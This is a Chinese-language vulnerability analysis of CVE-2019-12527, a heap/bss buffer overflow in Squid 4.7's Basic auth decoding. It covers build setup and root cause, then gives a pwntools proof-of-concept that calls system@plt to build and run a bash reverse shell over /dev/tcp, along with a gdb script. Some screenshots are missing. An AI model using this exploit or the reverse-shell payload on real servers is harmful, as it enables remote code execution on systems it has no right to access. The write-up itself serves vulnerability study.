





<!-- more -->

### 漏洞分析

环境搭建：

Linux osboxes 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

下载地址：

http://www.squid-cache.org/Versions/v4/squid-4.7.tar.gz

编译：

```
./configure
make -j4
sudo make install
```
安装后地址：

/usr/local/squid/sbin/squid

在配置文件/usr/local/squid/etc/squid.conf最后添加：

```
cache_access_log /var/squid/access.log
cache_log /var/squid/cache.log
cache_store_log /var/squid/store.log
并给这些文件赋值777
```

squid版本: 4.7

漏洞点在： src/HttpHeader.cc:



decodeAuthToken数组用于存放base解密后的数据，并且没有边界判断，所以造成溢出。

而decodeAuthToken定义成静态变量，位于程序的.bss区，可以覆盖到其他全局变量，造成崩溃，但崩溃会重新起一个进程，主进程并不会崩溃。

崩溃现场：



从图中我们可以看出，我们可以call一个地址，并且rdi 可控，相当于我们可以执行带一个参数的函数。查看程序的保护措施：



并未开启随机化，所以got和plt的地址固定，可以通过调用system@plt来执行命令，在rdi指向的地址0xc66488上填充要执行的命令。




decodeAuthToken起始位置：0xc64140 -> this=0xc66488 偏移为:0x2348

poc脚本：

```
from pwn import *
import binascii
import base64
import sys
import os
import time

command = []
path = '/tmp/x\0'
command.append("echo -n 'bash -i >& /d'>>"+path)
command.append("echo -n 'ev/tcp/127.0.'>>"+path)
command.append("echo -n '0.1/1234 0>&1'>>"+path)
command.append("chmod +x "+path)
command.append("bash "+path)

for i in command:
    payload = "GET cache_object://192.168.148.151/info"
    payload += " HTTP/1.1\n"
    payload += "HOST: 192.168.148.151\n"
    payload += "Authorization: Basic "

    content = "A:B"+'\x40\xa2\x42'*0xbc1 + '\x40\xa2'
    print i

    content += i # 填充 rdi 
    content += '\xa2'*(0x28-len(i))
    content += p64(0x4ee266) # system@plt 地址
    content = base64.b64encode(content)
    payload += content
    payload += '\n\n'

    with open("./poc","w+") as f:
        f.write(payload)
    f.close()
    time.sleep(1)
    os.system("nc 192.168.148.151 3128 < ./poc > 0")

```
gdb 调试脚本：

```
#!/bin/bash
python ./poc.py
sudo gdb\
        -ex "file /usr/local/squid/sbin/squid" \
        -ex "attach $(ps -ef | grep squid | grep -v grep |grep kid| awk '{print $2}')" \
        -ex "b base64_decode_update"\
        -ex "continue"

```

运行效果图：



得到的是一个nobody权限

虽然程序未开启随机化，但是不同条件下编译，生成的程序地址、got和plt地址不同，所以该poc不能通用。

### 参考链接

https://www.thezdi.com/blog/2019/8/22/cve-2019-12527-code-execution-on-squid-proxy-through-a-heap-buffer-overflow
